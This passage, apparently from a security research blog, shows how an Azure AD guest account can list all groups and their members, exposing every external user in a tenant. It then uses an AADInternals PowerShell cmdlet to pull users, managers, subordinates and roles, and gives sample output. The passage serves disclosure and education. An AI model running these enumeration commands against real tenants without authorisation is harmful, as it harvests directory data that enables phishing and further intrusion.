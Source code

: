 Lets list some relevant information from the returned groups:

{{< highlight powershell >}}
# List group information
$results.Groups | Select-Object displayName,id,membershiprule,description
{{< /highlight>}}
Output:
```
displayName          id                                   membershipRule                                                             description                   
-----------          --                                   --------------                                                             -----------                   
All guests           b4c40137-6d42-4102-aa3b-023ba7d6e484 (user.userType -eq "Guest") or (user.userPrincipalName -match ".*#EXT#.*") All guests and externals users
Teams with externals b25791fc-7c20-4027-93d8-4a39a9ed186c                                                                            Teams with externals
```

Many organisations have created a <a href="https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/groups-create-rule" target="_blank">dynamic group</a> to contain all
guest and/or extrernal users. Usually this is used to assign conditional access rules etc. to these users. However, the group will contain all guests of the organisation, including business partners, clients, etc.
And yes, **guest users can list the members of any group**!

{{< highlight powershell >}}
# List group information
$results.Groups | Select-Object displayName,id,members
{{< /highlight>}}
Output:
```
displayName          id                                   members                                                                                                                                                              
-----------          --                                   -------                                                                                                                                                              
All guests           b4c40137-6d42-4102-aa3b-023ba7d6e484 {user_gmail.com#EXT#@Mcompany.onmicrosoft.com, user_outlook.com#EXT#@company.onmicrosoft.com, ...}
Teams with externals b25791fc-7c20-4027-93d8-4a39a9ed186c {user@company.com, admin@company.onmicrosoft.com, user_outlook.com#EXT#@Mcompany.onmicrosoft.com} 
```
Now we have **the list of all external users of the tenant**! 

But wait, there is more! 

From the other group "Teams with externals" we can see the email address of tenant's user. With that, we can drill down even deeper to Azure AD.
The following will extract all users from all the groups the given user is member of (stage 2)!
{{< highlight powershell >}}
# Invoke the user enumeration for the known user including group members
$results = Invoke-AADIntUserEnumerationAsGuest -UserName "user@company.com" -GroupMembers -Manager -Subordinates -Roles
{{< /highlight>}}
Output:
```
Tenant brand: Company Ltd
Tenant name:  company.onmicrosoft.com
Tenant id:    6e3846ee-e8ca-4609-a3ab-f405cfbd02cd
Logged in as: live.com#user@outlook.com
Users:        32
```